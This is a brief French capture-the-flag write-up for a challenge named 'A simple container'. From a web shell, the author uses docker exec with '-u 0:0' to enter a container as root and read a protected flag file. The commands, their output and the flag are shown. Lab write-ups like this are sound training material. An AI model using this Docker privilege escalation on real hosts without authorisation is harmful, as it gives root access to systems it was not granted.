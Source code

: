# A simple container
### Information:
- web shell

Il y a 2 utilisateur:
- user
- admin

En naviguant dans /home/admin j'y trouve quelque chose!

```yaml
user@main-75dcb7f9db-xqgb6:/home/admin$ cat docker-compose.yml 
services:
  app:
    image: app
```

```bash
user@main-75dcb7f9db-xqgb6:/home/admin$ docker exec -it 7f883 /bin/sh
$ whoami
player
$ cd /
bin  boot  dev  etc  flag.txt  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
$ cat flag.txt
cat: flag.txt: Permission denied
```

Donc simplement retourner dans le container avec `UID: 0 GID: 0` pour `root`

```bash
user@main-75dcb7f9db-xqgb6:/home/admin$ docker exec -it -u 0:0 7f883 /bin/sh
# whoami
root
# cd /
# ls
bin  boot  dev  etc  flag.txt  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
# cat flag.txt
4T${SIMPLE_is_VERy_$1mple_aM_i_r1ght}
```

Voila, c'etait vraiment `a simple container`


